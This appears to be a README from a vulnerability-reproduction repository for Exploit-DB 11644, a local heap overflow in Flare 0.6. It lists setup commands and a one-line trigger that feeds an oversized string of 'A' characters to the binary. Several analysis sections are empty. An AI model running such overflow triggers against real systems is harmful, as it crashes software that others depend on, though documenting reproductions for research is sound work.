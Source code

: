 # EDB-11644

## Experiment Environment

Ubuntu 11.04

## INSTALL & Configuration

```
mkdir flare
wget https://github.com/mudongliang/source-packages/raw/master/EDB-11644/flare06linux.tgz
tar -xvf flare06linux.tgz
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./flare `perl -e 'print "A"x0x1000'`

or

python poc.py flare
```

## PoCs

[Flare 0.6 - Local Heap Overflow Denial of Service](https://www.exploit-db.com/exploits/11644/)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Root Cause

## References
